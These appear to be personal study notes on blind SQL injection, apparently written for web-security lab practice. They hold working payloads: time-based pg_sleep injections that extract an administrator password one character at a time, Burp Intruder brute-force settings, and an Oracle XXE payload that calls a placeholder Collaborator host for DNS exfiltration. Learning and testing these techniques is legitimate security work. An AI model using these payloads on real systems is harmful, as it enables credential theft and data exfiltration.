 
Length of Variable
```
' || (select case when (COLUMN='administrator' and LENGTH(COLUMN_password)>20) then pg_sleep(10) else pg_sleep(-1) end from TABLE)--
```

Burpsuite Testing
	- Create new ressource pool when bruteforcing length with 1 threat (10 wont allow the reply time to responde and be captured by BurpSuite)
	- Also when launching attack add a column for response time (Response Received)


Enumeration of variable
```
' || (select case when (COLUMN='administrator' and substring(COLUMN_password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from TABLE)--
```

- Column_Name_PASSWORD  ---> The Column we are interested to enumerate
	- (Column_Name_PASSWORD,2,1)  ---> 2,1 (2 = character we are trying to guest, 1 = Length of the letter (a) we are trying to guest... (probably always 1.. we guest 1 letter at the time))
- Column                                    ---> The Column Name that we are looking to get the variable
- Table_Name                            ---> Table Name that we are interested in (see previous step)
- administrator                           ---> Variable we are looking to find (True = Default HTML Resp)

- BurpSuite
	- Proxy the request
	- Send the request to intruder and add the § between the number after Column_Name_PASSWORD and between the letter we are tying to guest (a)
	```
	' || (select case when (COLUMN='administrator' and substring(COLUMN_password,§1§,1)='§a§') then pg_sleep(10) else pg_sleep(-1) end from TABLE)--
	```
	- Set the attack to Cluster Bomb and load the payloads

**(IMPORTANT)** Burpsuite Testing
	- Create new ressource pool when bruteforcing length with 1 threat (10 wont allow the reply time to responde and be captured by BurpSuite)
	- Also when launching attack add a column for response time (Response Received)


## Out-of-Band

Steps
- Try DNS lookup
- Try DNS lookup with data exfiltration

Example Cookie Request
![[Pasted image 20221206184026.png]]

DNS Lookup (Example with Oracle DB) ---> Other [Database](https://portswigger.net/web-security/sql-injection/cheat-sheet)
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```
